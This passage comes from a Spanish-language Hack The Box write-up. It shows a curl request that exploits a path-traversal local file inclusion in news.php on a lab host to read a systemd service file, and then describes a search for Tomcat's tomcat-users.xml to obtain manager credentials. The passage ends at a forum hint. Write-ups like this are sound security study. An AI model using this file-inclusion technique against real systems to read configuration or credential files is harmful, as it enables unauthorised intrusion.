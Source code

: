 Tenemos esa "estructura" de archivos, la más interesante claramente es la que relaciona **Users**, usando el LFI para leer el contenido no obtenemos ninguno... El archivo **index.html** si nos responde, pero es la misma información que estamos viendo en la página :)

Buscando en internet indican dos cosas importantes:

* Lo más común es que el archivo `tomcat-users.xml` este dentro de la carpeta `$CATALINA_HOME/conf/`, por lo que debemos empezar a buscar ahí...
* El archivo tiene usuario y contraseña para poder entrar a los apartados **manager webapp** y **host-manager webapp**

Pero tampoco obtenemos salida. En una guia encontre que al momento de instalar tomcat necesitaremos un archivo de -servicio- y está guardado en `/etc/systemd/system/tomcat.service`, dentro del estarán las rutas que está usando **CATALINA_HOME** y **CATALINA_BASE**.

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../../etc/systemd/system/tomcat.service

[Unit]
Description=Tomcat 9 servlet container
After=network.target

[Service]
Type=forking

User=tomcat
Group=tomcat

Environment="JAVA_HOME=/usr/lib/jvm/default-java"
Environment="JAVA_OPTS=-Djava.security.egd=file:///dev/urandom -Djava.awt.headless=true"

Environment="CATALINA_BASE=/opt/tomcat/latest"
Environment="CATALINA_HOME=/opt/tomcat/latest"
Environment="CATALINA_PID=/opt/tomcat/latest/temp/tomcat.pid"
Environment="CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC"

ExecStart=/opt/tomcat/latest/bin/startup.sh
ExecStop=/opt/tomcat/latest/bin/shutdown.sh

[Install]
WantedBy=multi-user.target
```

Validando sobre ese **CATALINA_HOME** tampoco vemos salida del archivo `tomcat-users.xml`. Por lo tanto lo mejor es instalar localmente **tomcat** y ver como y donde se crean los archivos para así no ir a ciegas. Pero obtenemos la misma estructura que en internet y aún ningún output.

Después de bastante tiempo intentando cosas me fui para el foro de HackThebox, una pista en la que simplemente referenciaba 

```bash
sudo apt-get install ...
find / -name...
```
